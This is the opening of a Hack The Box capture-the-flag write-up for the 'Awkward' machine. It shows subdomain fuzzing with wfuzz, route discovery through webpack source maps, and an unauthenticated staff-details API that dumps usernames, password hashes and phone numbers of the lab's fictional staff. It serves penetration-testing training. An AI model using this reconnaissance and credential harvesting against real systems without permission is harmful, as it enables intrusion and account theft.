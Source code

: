 ## Awkward

https://app.hackthebox.com/machines/503

### User Flag

Open 10.10.11.185:22  
Open 10.10.11.185:80  

Express/Node.js

http://hat-valley.htb/

```
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://hat-valley.htb' -H "Host: FUZZ.hat-valley.htb" --hw 13

000000081:   401        7 L      12 W       188 Ch      "store"
```

Authorization Required to access store.hat-valley.htb.

On http://hat-valley.htb/js/app.js, line 1 shows that *webpack* is used. We can debug it as [this article](https://blog.jakoblind.no/debug-webpack-app-browser/?source=post_page-----a2664d7e05bb--------------------------------) shows.

It explain that we can find interesting files on Developer Tools --> Sources  --> webpack://. There we can enumerate the following routes in src/services/*
```
- /api/leave
- /api/login
- /api/staff-details
- /api/store-status
```

And these ones in /src/router/router.js
```
- /
- /hr
- /dashboard
- /leave
```

Dashboard and leave requeires "requiresAuth" set to true.  
"hr" shows a login page.

"/api/staff-details" give us credentials.
```
[{"user_id":1,"username":"christine.wool","password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649","fullname":"Christine Wool","role":"Founder, CEO","phone":"0415202922"},{"user_id":2,"username":"christopher.jones","password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1","fullname":"Christopher Jones","role":"Salesperson","phone":"0456980001"},{"user_id":3,"username":"jackson.lightheart","password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436","fullname":"Jackson Lightheart","role":"Salesperson","phone":"0419444111"},{"user_id":4,"username":"bean.hill","password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f","fullname":"Bean Hill","role":"System Administrator","phone":"0432339177"}]
```
